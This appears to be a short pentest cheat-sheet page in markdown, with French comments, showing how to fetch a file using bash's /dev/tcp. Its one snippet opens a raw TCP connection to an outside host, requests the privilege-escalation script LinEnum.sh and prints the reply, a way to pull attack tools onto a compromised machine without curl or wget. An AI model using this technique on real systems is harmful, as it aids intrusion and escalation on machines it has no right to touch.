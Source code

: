 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Bash (/dev/tcp)

```
# connection
exec 3<>/dev/tcp/1.2.3.4/80

# Envoie du HTTP GET
echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3

# Affichage de la réponse
cat <&3
```
